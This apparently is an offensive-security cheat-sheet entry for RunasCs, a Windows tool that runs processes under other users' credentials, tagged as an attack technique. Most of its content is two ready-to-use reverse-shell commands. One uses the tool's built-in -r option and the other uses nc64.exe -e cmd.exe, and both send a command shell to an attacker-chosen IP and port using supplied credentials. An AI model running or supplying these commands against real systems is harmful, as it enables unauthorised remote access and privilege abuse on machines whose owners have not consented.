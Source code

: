# RunasCs

% windows, impersonation

#plateform/windows #target/local  #cat/ATTACK
## _desc
```
RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. solve many runas limits. Works both if spawned from interactive process and from service process
```

## _repo
```
https://github.com/antonioCoco/RunasCs
```

## _doc
```
https://github.com/antonioCoco/RunasCs
```

## _install
```
```


## builtin revshell 
```powershell
RunasCs.exe <user> <password> powershell.exe -r <ip>:<port>
```

## nc revshell 
```powershell
RunasCs.exe <user> <password> 'cmd /c c:\tmp\nc64.exe <ip> <port> -e cmd.exe'
```
